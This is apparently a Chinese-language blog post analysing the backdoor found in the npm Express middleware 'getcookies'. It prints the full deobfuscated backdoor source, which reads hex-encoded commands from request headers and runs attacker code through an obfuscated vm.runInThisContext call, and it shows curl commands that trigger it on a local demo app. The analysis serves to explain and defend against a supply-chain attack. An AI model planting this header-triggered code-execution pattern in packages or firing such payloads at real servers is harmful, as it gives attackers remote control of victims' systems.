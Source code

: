 ```yaml
---
layout: post
title:  "Express 中间件 getcookies 后门代码分析"
date:   2018-05-27
tags: [js]
commentIssueId: 82
---
```


前段时间 Express 中的一个中间件 getcookies 被爆出存在 backdoor，关注了一波，但仅看[官方npm 的解释](https://blog.npmjs.org/post/173526807575/reported-malicious-module-getcookies)，一时半会儿没想明白黑客是怎么留的后门，一直困扰着我。今天有空仔细看了一下，了解了黑客具体的作案手段。文中的代码可以在 [drafts/getcookies](https://github.com/zhoukekestar/drafts/tree/master/2018-01~06/2018-05-14-getcookies) 中查找。




## 后门代码分析

这个后门代码找得也不容易，因为在被爆出后门后，npm 团队第一时间就删除下架了，github 上的仓库也没找到，不过不负有心人，在 [npm.runkit](https://npm.runkit.com/getcookies/test/harness.js?t=1525249320108) 中找到了后门源码。

* 黑客巧妙地把 backdoor 代码伪装成测试代码放在 test 目录中，并在 index.js **“不经意”** 引入了测试代码
* 主要的 `require('vm')['runInThisContext']` 代码被编码故意伪装了一下
* 全程使用 16 进制，让不想细看的人以为是测试代码

```js
// 分配一块 64K 的内存
module.exports.log = module.exports.log || Buffer.alloc(0xffff);

// gCOMMANDhDATAi
JSON.stringify(req.headers).replace(/g([a-f0-9]{4})h((?:[a-f0-9]{2})+)i/gi, (o, p, v) => {
    // 以 0xfffe 命令为样例
    // 将字符串 feff 读入 Buffer
    // 'feff' => <Buffer fe ff>
    // readUInt16LE 读取 16 bit(位) 并以 byte(字节) 反向排序
    // <Buffer fe ff> => 0xfffe
    //
    // > Buffer.from('feff', 'hex').readUInt16LE(0) === 0xfffe
    // true
    // > Buffer.from('1234567890', 'hex').readUInt32LE(1).toString(16)
    // '90785634'
    p = Buffer.from(p, 'hex').readUInt16LE(0);
    switch (p) {

        case 0xfffe:
            module.exports.log = Buffer.alloc(0xffff);
            return;
        case 0xfffa:
            return setTimeout(() => {

                // 去除末尾的 0x00
                let c = module.exports.log.toString().replace(/\x00*$/, '');
                module.exports.log = Buffer.alloc(0xffff);

                // 不能以 0x00 开头
                if (c.indexOf('\x00') < 0) {
                    // require('vm')['runInThisContext'](c)(module.exports, require, req, res, next)
                    // 代码必须是个函数
                    require('\x76\x6d')['\x72\x75\x6e\x49\x6e\x54\x68\x69\x73\x43\x6f\x6e\x74\x65\x78\x74'](c)(module.exports, require, req, res, next);
                }
                next();
            }, 1000);
        default:
            // 我们以 (function(){console.log('hack')}) 为例
            v = Buffer.from(v, 'hex');
            for (let i = 0; i < v.length; i++) {

                // 因为执行命令的时候，不能以 0x00 开头
                // 所以，p 必须是 0x0000
                module.exports.log[p + i] = v[i];
            }
    }
});
```



## 测试一下后门

写一个 express 应用，并将中间件引入进来

```js
var express = require('express')
var app = express()

var getcookies = require('..');

app.use(getcookies);
app.get('/', function (req, res) {
  res.send('Hello World')
})

app.listen(3000)

```

启动并执行我们的后门代码

```sh
$ node demo/index.js
// 向服务器注入 16 进制代码 (function(){console.log('hack')})
$ curl -H 'evil: g0000h2866756e6374696f6e28297b636f6e736f6c652e6c6f6728276861636b27297d29i'  http://127.0.0.1:3000
// 向服务器发送执行命令
$ curl -H 'evil: gfaffh00i'  http://127.0.0.1:3000
```



注意，中途出现的 hack 就是被注入代码的输出。

![](https://gw.alicdn.com/tfs/TB1g9TatMmTBuNjy1XbXXaMrVXa-542-412.gif)



<script src="https://asciinema.org/a/nxshzTvzeH0WHYz3Wb0Z8Q5Np.js" id="asciicast-nxshzTvzeH0WHYz3Wb0Z8Q5Np" async></script>



## References

* [以上分析的仓库代码](https://github.com/zhoukekestar/drafts/tree/master/2018-01~06/2018-05-14-getcookies)

* [文件来源](https://npm.runkit.com/getcookies/test/harness.js?t=1525249320108)
* [讨论地址](https://news.ycombinator.com/item?id=16975025)
* [细思极恐：后门代码被隐藏在npm模块中，差点就得逞](https://mp.weixin.qq.com/s/4JGuRDR54OnJyAqlSns53Q)
* [npm blog](https://blog.npmjs.org/post/173526807575/reported-malicious-module-getcookies)
* [16进制转换](https://www.bejson.com/convert/ox2str/)

 